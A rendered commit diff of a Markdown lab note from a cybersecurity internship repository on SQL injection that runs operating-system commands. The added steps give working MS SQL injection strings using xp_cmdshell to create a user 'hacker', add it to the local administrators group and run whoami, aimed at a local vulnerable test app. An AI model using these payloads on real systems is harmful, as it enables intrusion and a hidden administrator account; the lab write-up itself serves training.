

Before and after one commit to aaronamran/MCSI-Remote-Cybersecurity-Internship, a Markdown page: Penetration Testing/arbitrary-command-sql-injection.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Penetration Testing/arbitrary-command-sql-injection.md
+++ b/Penetration Testing/arbitrary-command-sql-injection.md
@@ -62,4 +62,16 @@ Database applications like MySQL, MS SQL, and Oracle can execute system commands
     ```
     http://localhost/vulnsql/vuln.php?id=1'; EXEC sp_executesql N'EXEC xp_cmdshell(''whoami'')';--
     ```
-11.
+11. To use SQL injection to create a new user `hacker` with password `hacked1337`, use the following SQL injection strings at the end of the web app's URL
+    ```
+    ?id=1'; EXEC sp_executesql N'EXEC xp_cmdshell(''net user hacker hacked1337 /add'')';--
+    ```
+12. To add this user to the local administrators group, add the following
+    ```
+    ?id=1'; EXEC sp_executesql N'EXEC xp_cmdshell(''net localgroup administrators hacker /add'')';--
+    ```
+13. To verify `hacker` was added, check using the SQL injection string
+    ```
+    ?id=1'; EXEC sp_executesql N'EXEC xp_cmdshell(''whoami'')';--
+    ```
+14.
````
